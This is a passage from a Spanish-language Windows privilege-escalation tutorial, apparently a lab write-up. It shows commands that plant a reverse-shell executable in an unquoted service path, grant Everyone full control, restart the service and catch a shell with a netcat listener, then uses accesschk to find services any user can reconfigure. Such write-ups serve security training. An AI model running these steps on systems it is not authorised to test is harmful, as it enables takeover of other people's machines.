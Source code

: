 ```
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```


```
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

Una vez que el servicio se reinicia, se debería ejecutar el payload que nosotros hemos creado y darnos una shell:


```
nc -lvnp 4446
```

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FViM29l6BA3JLizZjDBsZ%252Fimagen.png%3Falt%3Dmedia%26token%3D9e82a164-4232-4417-a8d8-659db76aa9e5&width=768&dpr=4&quality=100&sign=7a177811746861a0a74261d999209797731fd9030c43bb45f17a96fc431c0ad0)

Shell como svcusr2

[ VK9 SecurityVK9 Security](https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/|Privilege Escalation - Unquoted Service Path (Windows) | VK9 SecurityVK9 Security](Windows)%20)

### Insecure Service Permissions

Si fuera el caso de que el DACL esta bien configurado y/o el servicio tiene una ruta correcta, aun tenemos oportunidad de explotar de los servicios. Si el DACL no te deja modificarlo aun puedes intentar reconfigurarlo. Esto le permitirá apuntar a cualquier ejecutable que necesite y ejecutarlo con cualquier cuenta que prefiera, incluido el propio SISTEMA.

Para verificar que esto es posible se puede utilizar un programa llamado [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) que esta en la suit de sysinternals.

**Ejemplo de ejecutar el Accesschk**


```
C:\tools\AccessChk> accesschk64.exe -qlc j4ckieservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

Podemos ver como en `BUILTIN\Users` tiene el permiso `SERVICE_ALL_ACCESS` que eso significa que los cualquier usuario puede reconfigurar el servicio.

